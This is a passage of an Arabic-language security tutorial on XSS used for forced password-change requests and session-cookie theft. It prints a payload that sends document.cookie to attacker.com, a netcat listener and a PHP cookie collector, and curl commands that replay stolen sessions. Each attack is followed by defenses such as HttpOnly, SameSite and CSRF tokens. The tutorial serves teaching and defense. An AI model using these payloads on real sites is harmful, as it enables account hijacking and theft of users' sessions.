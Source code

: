          ```
         <script>var xhr=new XMLHttpRequest();xhr.open("POST","http://vulnerable.com/change-password",true);...</script>
         ```
       - لو Reflected XSS، بيعمل لينك زي:
         ```
         http://vulnerable.com/search?q=<script>var xhr=new XMLHttpRequest();xhr.open("POST","http://vulnerable.com/change-password",true);...</script>
         ```
   - **الحماية**:
     - استخدم CSRF tokens عشان تمنع الطلبات التلقائية.
     - حط `SameSite=Strict` على الكوكيز عشان ميتبعتوش في طلبات من مواقع تانية.

#### 2. **سرقة الكوكيز واستخدامها للسيطرة على الحساب**
   - **إزاي بتحصل؟**
     - المهاجم بيسرق الكوكيز بتاعة الجلسة عبر XSS، وبيستخدمها عشان يدخل على حساب المستخدم وينفذ إجراءات.
   - **الأوامر أو المفاهيم اللي بتُستخدم**:
     - **سكربت JavaScript لسرقة الكوكيز (نظري)**:
       ```javascript
       var cookie = document.cookie;
       new Image().src = "http://attacker.com/steal?cookie=" + encodeURIComponent(cookie);
       ```
       - `document.cookie`: بيجيب الكوكيز.
       - `new Image().src`: بيبعت الكوكيز لسيرفر المهاجم.
     - **إعداد سيرفر المهاجم**:
       - استخدام **netcat** عشان تستقبل الكوكيز:
         ```bash
         nc -lvp 80
         ```
       - أو سكربت PHP:
         ```php
         <?php
         file_put_contents("stolen_cookies.txt", $_GET['cookie'] . "\n", FILE_APPEND);
         ?>
         ```
     - **استخدام الكوكيز**:
       - المهاجم بيحط الكوكيز في المتصفح:
         - افتح Chrome، اضغط F12، روح لـ Application -> Cookies.
         - أضف الكوكيز اللي سرقتها يدويًا.
       - أو بيستخدم **cURL**:
         ```bash
         curl -H "Cookie: session=stolen_cookie_value" http://vulnerable.com/profile
         ```
         - الأمر ده بيبعت طلب بالكوكيز.
       - أو بيستخدم Burp Suite:
         - اعترض طلب، وغيّر الكوكيز في الـ Headers.
     - **إزاي بيحط السكربت؟**
       - Stored أو Reflected XSS.
   - **الحماية**:
     - حط `HttpOnly` على الكوكيز عشان JavaScript ميقدرش يقراها.
     - استخدم `Secure` و`SameSite` على الكوكيز.
